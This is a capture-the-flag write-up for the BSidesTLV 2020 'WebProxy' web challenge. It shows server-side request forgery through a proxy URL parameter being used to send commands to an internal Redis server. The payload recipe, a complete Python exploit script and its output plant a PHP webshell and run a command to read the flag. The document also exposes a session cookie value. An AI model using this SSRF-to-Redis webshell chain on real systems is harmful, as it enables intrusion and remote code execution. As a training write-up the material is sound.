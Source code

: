 # WebProxy
* Category: Web
* 300 Points
* Solved by the JCTF Team

## Description
> Why I got hacked!? can you help me to close this hole?
> 
> URL: https://webproxy.ctf.bsidestlv.com/?csurl=https://stackoverflow.com/questions/8318911/why-does-html-think-chucknorris-is-a-color
> 
> Note: please include the BSidesTLV cookie


## Solution

We visit the attached website, and as expected, see the proxied webpage.

Let's see what else we can find by changing the `csurl` parameter to something a bit more interesting:
```console
root@kali:/media/sf_CTFs/bsidestlv/WebProxy# curl https://webproxy.ctf.bsidestlv.com/?csurl=http://127.0.0.1
```

As a response, we get a table with the following content:
| Service name: | IP Address: | Port: | 
| ------------- | ----------- | ----- |
| Redis | 10.42.144.38 | 6379 |
| NGINX + PHP | 10.42.144.38 | 80 |
| NGINX + PHP | 10.42.253.181 | 80 |

So, we have a Redis DB and a PHP server on the same IP! It turns out that Redis is [very forgiving](https://www.agarri.fr/blog/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html) when it comes to accepting commands: Redis is able to ignore a good amount of "noise" and successfully execute the commands hiding inside. In our case, the "noise" is an HTTP request.

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md#ssrf-exploiting-redis) has a great recipe for exploiting this:
```
# Getting a webshell
url=dict://127.0.0.1:6379/CONFIG%20SET%20dir%20/var/www/html
url=dict://127.0.0.1:6379/CONFIG%20SET%20dbfilename%20file.php
url=dict://127.0.0.1:6379/SET%20mykey%20"<\x3Fphp system($_GET[0])\x3F>"
url=dict://127.0.0.1:6379/SAVE
```

So basically the plan is to use the recipe above to create a webshell, and then use it to find the flag.

Here's the script:
```python
import requests

IP_ADDR = "10.42.144.38"

SHELL_NAME = 'shell.php'

def send_to_proxy(csurl):
    print(f"Sending request to: '{csurl}'")
    cookies = cookies = {'BSidesTLV': '34aa0da142bb608e2be8d1b644c25bffe6fad5a5'}
    r = requests.get(f"https://webproxy.ctf.bsidestlv.com/?csurl={csurl}", cookies = cookies)
    return r.text

commands = [
    r'CONFIG SET dir /var/www/html',
    r'CONFIG SET dbfilename {}'.format(SHELL_NAME),
    r'SET mykey "<\x3Fphp echo \"\\n\"; system($_GET[\'command\']); exit;\x3F>"',
    r'SAVE'
]

for command in commands:
    csurl = f"dict://{IP_ADDR}:6379/{command}"
    send_to_proxy(csurl)

print(send_to_proxy(f"http://{IP_ADDR}:80/{SHELL_NAME}?command=cat $(find / -name flag.txt)"))

```

Output:
```console
root@kali:/media/sf_CTFs/bsidestlv/WebProxy# python3 1.py
Sending request to: 'dict://10.42.144.38:6379/CONFIG SET dir /var/www/html'
Sending request to: 'dict://10.42.144.38:6379/CONFIG SET dbfilename shell.php'
Sending request to: 'dict://10.42.144.38:6379/SET mykey2 "<\x3Fphp echo \"\\n\"; system($_GET[\'command\']); exit;\x3F>"'
Sending request to: 'dict://10.42.144.38:6379/SAVE'
Sending request to: 'http://10.42.144.38:80/shell.php?command=cat $(find / -name flag.txt)'
REDIS0006 mykey
BsidesTLV2020{55rf_Is_S0_C00l!!}
```